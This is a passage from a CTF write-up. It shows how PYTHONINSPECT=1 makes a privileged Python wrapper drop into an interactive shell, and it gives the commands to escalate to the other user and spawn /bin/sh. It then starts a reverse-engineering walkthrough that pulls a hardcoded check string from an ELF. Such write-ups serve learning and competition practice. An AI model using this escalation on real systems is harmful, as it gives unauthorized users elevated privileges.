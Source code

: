 ```text
When a script is passed as first argument or the -c option is used, enter interactive mode after executing the script or the command, even when sys.stdin does not appear to be a terminal. The PYTHONSTARTUP file is not read.
```

In other words, the following happens: when called with this env variable set, the python interpreter, upon exit, opens a python shell. Privileges are kept as is. This means that we get a python shell with user `ezila(1001)`! We can read the flag with `open("flag.txt").read()`, or we can also get a _real_ shell:

```python
$ PYTHONINSPECT=1 ./run-ezila
running /app/ezila.py as uid=1000 (euid=1001)
How do you do.  Please tell me your problem.
> bye
bye
Goodbye.  Thank you for talking to me.
>>> import os
>>> os.setresuid(1001,1001,1001)
>>> os.system("/bin/sh")
$ id
uid=1001(ezila) gid=1000(ctfuser) groups=1000(ctfuser)
$ cat flag.txt
flag{n3v3r_7ru57_a_ch@7b07_t0_cl3@n_th3_3nv1r0nm3n7}
```

## Rev

### Speed-Rev: Bots

In this challenge we were given a remote host and we were asked to complete six levels in three minutes.

Each level we were given a base-64 encoded ELF and we were asked for a "flag".

By looking at the ELFs we can see that this "flag" is validated through the function `validate` which changes for every level. The "flag" looks to be 16 bytes long and it conains only alphanumeric characters.

Since this challenge was pretty much the same as `Speed-Rev: Humans`, this solution can also solve that challenge.

#### Level 1

---

The first level is pretty simple, we can see that the function `validate` is just a simple `strncmp` with an hardcoded string which is randomly generated at each run.

![Level 1 Ghidra](/writeups/images/hackpackctf2023_level1_ghidra.png)

By examining the binary with `strings -t d` we can see that the requested string is just 17 bytes before the "%16s" string, so we can just search for that string in the binary and take the 16 bytes we need for our "flag".
